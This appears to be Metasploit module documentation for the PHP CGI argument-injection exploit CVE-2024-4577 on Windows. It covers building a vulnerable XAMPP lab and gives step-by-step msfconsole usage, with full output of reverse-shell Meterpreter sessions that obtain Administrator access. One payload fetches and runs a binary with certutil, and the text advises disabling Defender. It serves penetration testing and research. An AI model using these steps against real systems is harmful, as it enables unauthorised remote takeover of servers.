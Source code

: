 ## Vulnerable Application
This module exploits a PHP CGI argument injection vulnerability affecting PHP in certain configurations
on a Windows target. A vulnerable configuration is locale dependant (such as Chinese or Japanese), such that
the Unicode best-fit conversion scheme will unexpectedly convert a soft hyphen (0xAD) into a dash (0x2D)
character. Additionally a target web server must be configured to run PHP under CGI mode, or directly expose
the PHP binary. This issue has been fixed in PHP 8.3.8 (for the 8.3.x branch), 8.2.20 (for the 8.2.x branch),
and 8.1.29 (for the 8.1.x branch). PHP 8.0.x and below are end of life and have note received patches.

XAMPP is vulnerable in a default configuration, and we can target the /php-cgi/php-cgi.exe endpoint. To target
an explicit .php endpoint (e.g. /index.php), the server must be configured to run PHP scripts in CGI mode.

## Testing
* Configure a Windows system with a system locale for Japanese (code page 932).
  * Navigate to `Control Panel` -> `Region` -> `Administrative` -> `Change system locale...`
  * Select `Japanese (Japan)` and click `OK`.
  * Click `Restart now`.
  * After restart, login and open a command prompt. Verify the code page via the command `chcp`. You should see this:
```
Microsoft Windows [Version 10.0.20348.1607]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator>chcp
Active code page: 932
```
* Download a known vulnerable version of XAMPP `8.2.12 / PHP 8.2.12`
([direct link here](https://sourceforge.net/projects/xampp/files/XAMPP%20Windows/8.2.12/xampp-windows-x64-8.2.12-0-VS16-installer.exe)).
* Install XAMPP and run the XAMPP Console. Click the `Start` action to start the Apache web server.
* Verify you can browse to http://127.0.0.1:80/. You should see the "Welcome to XAMPP for Windows" page.

No further configuration is needed to exploit the target when targeting the exploits default `TARGETURI` endpoint
`/php-cgi/php-cgi.exe'`. This is because XAMPP uses the Apache `ScriptAlias` directive to expose the `php-cgi.exe`
binary directly. If you want to target an `.php` endpoint (for example `/index.php`), the target Apache serer must
have this enabled in its configuration (`c:\xampp\apache\conf\extra\httpd-xampp.conf`):

```
 #
 # PHP-CGI setup
 #
 <FilesMatch "\.php$">
     SetHandler application/x-httpd-php-cgi
 </FilesMatch>
 <IfModule actions_module>
     Action application/x-httpd-php-cgi "/php-cgi/php-cgi.exe"
 </IfModule>
```

If you modify the Apache config, dont forget to restart the Apache server to pick up the changes.

## Verification Steps
Note: On Windows, disable Defender if you are using the command payloads. This is not needed for the PHP payloads
as they execute in-memory.

1. Start msfconsole
2. `use exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set payload php/meterpreter/reverse_tcp`
6. `set LHOST eth0`
7. `check`
8. `exploit`

## Scenarios

### Windows PHP

```
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set RHOSTS 192.168.86.50
RHOSTS => 192.168.86.50
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > check
[+] 192.168.86.50:80 - The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set target 0
target => 0
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > show options

Module options (exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.50         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                    yes       The target port (TCP)
   SSL        false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /php-cgi/php-cgi.exe  yes       The path to a PHP CGI endpoint
   VHOST                            no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows PHP



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > check
[+] 192.168.86.50:80 - The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
[*] Sending stage (39927 bytes) to 192.168.86.50
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:49761) at 2024-06-10 17:32:52 +0100

meterpreter > getuid
Server username: Administrator
meterpreter > pwd
C:\xampp\php
meterpreter > sysinfo
Computer    : WIN-V28QNSO2H05
OS          : Windows NT WIN-V28QNSO2H05 10.0 build 20348 (Windows Server 2022) AMD64
Meterpreter : php/windows
meterpreter > 
```

### Windows Command

```
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set target 1
target => 1
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > show options

Module options (exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.50         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                    yes       The target port (TCP)
   SSL        false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /php-cgi/php-cgi.exe  yes       The path to a PHP CGI endpoint
   VHOST                            no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      ZyJgsNjYvpTX     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > check
[+] 192.168.86.50:80 - The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
[*] Sending stage (201798 bytes) to 192.168.86.50
[*] Meterpreter session 2 opened (192.168.86.42:4444 -> 192.168.86.50:49780) at 2024-06-10 17:34:45 +0100

meterpreter > getuid
Server username: WIN-V28QNSO2H05\Administrator
meterpreter > pwd
C:\xampp\php
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : ja_JP
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```
